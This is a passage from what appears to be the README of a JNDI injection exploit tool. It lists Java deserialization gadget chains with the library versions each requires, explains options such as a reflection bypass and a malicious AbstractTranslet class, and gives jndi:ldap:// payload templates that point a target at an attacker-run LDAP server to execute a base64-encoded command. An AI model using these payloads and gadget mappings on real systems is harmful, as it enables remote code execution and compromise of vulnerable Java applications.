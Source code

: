 | JRMPClient_Obj                              |                                                              |                      |
| JRMPListener                                |                                                              |                      |
| JSON1                                       | net.sf.json-lib:json-lib:jar:jdk15:2.4<br/>org.springframework:spring-aop:4.1.4.RELEASE |                      |
| Jython1                                     | org.python:jython-standalone:2.5.2                           |                      |
| MozillaRhino1                               | rhino:js:1.7R2                                               |                      |
| MozillaRhino2                               | rhino:js:1.7R2                                               |                      |
| Myfaces1                                    | -                                                            |                      |
| Myfaces2                                    | -                                                            |                      |
| RenderedImage                               | javax.media:jai-codec-1.1.3                                  |                      |
| ROME                                        | rome:rome:1.0                                                |                      |
| ROME2                                       | rome:rome:1.0<br/>JDK 8+                                     |                      |
| Spring1                                     | org.springframework:spring-core:4.1.4.RELEASE<br/>org.springframework:spring-beans:4.1.4.RELEASE |                      |
| Spring2                                     | org.springframework:spring-core:4.1.4.RELEASE<br/>org.springframework:spring-aop:4.1.4.RELEASE<br/>aopalliance:aopalliance:1.0<br/>commons-logging:commons-logging:1.2 |                      |
| Spring3                                     | org.springframework:spring-tx:5.2.3.RELEASE<br/>org.springframework:spring-context:5.2.3.RELEASE<br/>javax.transaction:javax.transaction-api:1.2 |                      |
| Vaadin1                                     | com.vaadin:vaadin-server:7.7.14<br/>com.vaadin:vaadin-shared:7.7.14 |                      |
| Wicket1                                     | org.apache.wicket:wicket-util:6.23.0<br/>org.slf4j:slf4j-api:1.6.4 |                      |

- a：恶意类是否继承 AbstractTranslet
- o：使用反射绕过
  ~~- j：使用 ObjectInputStream/ObjectOutputStream 来构造序列化流~~（这个构造的流有BUG，还在思考修复）
- 需要参数时，在命令后面添加，#参数

* 使用示例：

```
jndi:ldap://127.0.0.1:1389/Deserialization/[GadgetType]/command/Base64/[base64_encoded_cmd]
```

加参数

```
jndi:ldap://127.0.0.1:1389/Deserialization/[GadgetType]/command/cmd#-a -o}
```

当命令中有`?`时base64编码出现`/`导致出现BUG时使用，命令需要Base64编码两次。

```
jndi:ldap://127.0.0.1:1389/Deserialization/[GadgetType]/command/Base64Two/base64_encoded_cmd#-a -o
```

* 效果图

![](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdownimage.png)

---


[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)